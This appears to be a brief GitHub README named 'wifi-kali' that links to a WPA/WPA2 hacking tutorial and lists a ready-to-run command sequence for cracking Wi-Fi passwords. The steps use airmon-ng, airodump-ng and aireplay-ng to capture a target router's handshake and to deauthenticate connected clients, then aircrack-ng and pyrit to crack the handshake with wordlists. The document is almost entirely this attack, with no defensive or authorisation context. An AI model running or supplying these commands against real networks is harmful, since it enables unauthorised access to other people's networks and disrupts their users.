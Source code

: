 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

#### CRACKBEGIN
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /home/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon

#### CRACKEND
* aircrack-ng -a2 -b {target_router_bssid} -w /home/wordlist.txt /home/*.cap
* airmon-ng stop wlan0mon
* pyrit -r BSSID.cap analyze
* pyrit -i ./rockyou.txt import_passwords
* pyrit -e BSSID create_essid
* #pyrit eval
* pyrit batch
